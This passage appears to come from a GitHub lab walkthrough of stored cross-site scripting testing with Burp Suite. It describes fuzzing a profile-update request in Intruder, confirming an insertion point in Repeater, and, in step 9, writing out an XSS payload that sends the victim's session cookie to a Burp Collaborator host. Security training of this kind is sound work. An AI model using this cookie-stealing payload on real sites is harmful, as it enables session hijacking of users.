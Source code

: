 * Send the profile update request to **Burp Intruder**.
* Use **cluster bomb** or **pitchfork** mode with common XSS payloads to find possible injection points.

<img width="979" height="638" alt="image" src="https://github.com/user-attachments/assets/1cdd776e-d9b1-473d-9660-158d2bbfa2c6" />

---

### **7. Scan for XSS Insertion Point**

* Begin **active scanning** or custom payload injection using **Intruder**.
* After analyzing responses, you discover that one parameter reflects content back — **a stored XSS vulnerability is identified**.

<img width="1328" height="771" alt="image" src="https://github.com/user-attachments/assets/bfb23773-05b4-498e-a071-e9b4362b9149" />

Doing Insertion point scan

<img width="1328" height="771" alt="image" src="https://github.com/user-attachments/assets/8714834b-f290-41cf-bf76-ee4b1ae412b8" />

We have find Cross-site scripting store of insertion point

<img width="1886" height="931" alt="image" src="https://github.com/user-attachments/assets/42bb5cdf-aecd-4e80-acfe-31e2e7863dec" />

---

### **8. Craft XSS Payload**

* Send a **basic XSS payload** to Repeater to verify reflection and triggering:
* Once verified, move to building a **data exfiltration payload**.

 <img width="683" height="790" alt="image" src="https://github.com/user-attachments/assets/f5d9d867-aad0-4d3f-955e-28468d9189fd" />

Decoded payload

<img width="1383" height="412" alt="image" src="https://github.com/user-attachments/assets/c1f497b4-ce95-48a6-b0b1-76271967925a" />

---

### **9. Create Payload for Collaborator**

* Craft an XSS payload to steal the session cookie using **Burp Collaborator**:

  ```html
  "><svg/onload=fetch(`//YOUR-COLLABORATOR-ID.burpcollaborator.net?cookie=${encodeURIComponent(document.cookie)}`)>
  ```
* Replace `YOUR-COLLABORATOR-ID` with your actual Burp Collaborator payload URL.

<img width="1911" height="597" alt="image" src="https://github.com/user-attachments/assets/b733228f-1e74-4c03-97bf-a040ac26e94b" />

<img width="1771" height="370" alt="image" src="https://github.com/user-attachments/assets/4cd07f2d-adf0-4fe3-b396-16b6683b4bf4" />

---
